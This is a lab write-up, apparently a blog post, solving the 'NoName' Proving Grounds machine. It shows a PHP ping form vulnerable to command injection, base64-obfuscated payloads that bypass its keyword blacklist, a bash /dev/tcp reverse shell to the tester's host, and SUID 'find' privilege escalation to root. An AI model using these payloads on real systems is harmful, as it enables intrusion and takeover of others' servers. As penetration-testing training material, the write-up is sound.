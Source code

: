 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

- I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures posted with no functionality
    - `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![image](\assets\images\noname-pg\2022-07-27-15-23-21.png)

- Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting for a 5 second delay in the response.
    - As we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked.
    - I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- Looks like there are certain blacklisted characters and commands, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a base64 encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

- And it worked, so I tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, which is really weird not sure why. So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the base64 decoded payload instead of executing it with bash, and I got the following response
           
        ![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

        - Looks like it is not printing the whole base64 encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        ![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


- Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

- Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

